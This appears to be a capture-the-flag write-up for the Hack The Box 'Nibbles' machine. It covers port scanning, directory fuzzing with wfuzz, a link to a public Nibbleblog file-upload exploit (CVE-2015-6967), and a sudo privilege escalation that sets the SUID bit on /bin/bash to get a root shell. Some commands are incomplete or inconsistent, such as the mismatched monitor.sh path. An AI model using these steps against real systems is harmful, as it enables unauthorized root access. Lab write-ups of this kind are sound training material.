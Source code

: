 ```yaml
---
title: Nibbles Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

````ruby
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 c4f8ade8f80477decf150d630a187e49 (RSA)
| 256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_ 256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Therefore, we will have to do the intrusion through the web, since we do not have SSH credentials.

The web page only has a ``Hello World`` , but in its source code we can find the `/nibbleblog/` directory so let's investigate it.

Applying a wfuzz to it:

````bash
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.225.129/nibbleblog/FUZZ/
```

We can see several directories, including `/admin, /languages, /plugins, /content and /themes` . 
Let's investigate `/admin` first. Unfortunately, we can't find much.
## User Exploit

On the main page, we see that it is created using niddleblog, so let's look for an exploit: 

Luckily, we found the following: https://github.com/dix0nym/CVE-2015-6967

Let's import it and run it:

To run it, we will have to go to the directory `/content/private/plugins/my_image/` and run the file named `image.php`.  

## Root Exploit

Doing `sudo -l` we see that we can run the file `/home/nibbler/personal/personal/stuff/monitor.sh` as root,
but as this does not exist, we create it with the following command inside

````bash
/bin/bash

chmod u+s /bin/bash
```

And we execute it: `sudo /.monitor.sh` -> `/bin/bash -p` and we can already see the root flag inside /root/root.txt
